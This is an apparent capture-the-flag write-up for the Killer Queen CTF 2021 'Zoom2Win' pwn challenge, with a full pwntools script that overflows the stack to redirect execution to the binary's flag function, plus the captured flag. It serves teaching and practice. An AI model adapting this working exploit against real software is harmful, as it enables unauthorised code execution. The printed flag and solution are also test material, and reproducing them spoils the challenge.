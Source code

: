 ```yaml
---
name: Zoom2Win (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Zoom2Win (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Zoom2Win

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=707s "Killer Queen 2021: Zoom2Win")

## Challenge Description

> What would CTFs be without our favorite ret2win

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_eip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))
    info('located EIP offset at {a}'.format(a=eip_offset))
    # Return the EIP offset
    return eip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './zoom2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP offset
offset = find_eip(cyclic(100))

ret = 0x40101a  # Ret gadget from ropper (stack alignment)

# Start program
io = start()

# Build the payload
payload = flat({offset: [ret, elf.symbols.flag]})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
